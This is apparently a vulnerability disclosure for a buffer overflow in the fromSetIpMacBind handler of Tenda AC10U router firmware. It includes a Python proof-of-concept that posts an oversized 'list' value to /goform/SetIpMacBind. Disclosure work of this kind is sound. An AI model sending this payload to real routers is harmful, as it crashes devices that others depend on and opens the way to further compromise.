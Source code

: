 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/fromSetIpMacBind

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](15.png)


get value from list, then static_list->list, finally call strcpy, cause buff overflow

but we must send bindnum between 0-33




## POC
```
url = "http://192.168.1.13/goform/SetIpMacBind"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'list': payload , 'bindnum': 1})
``` 
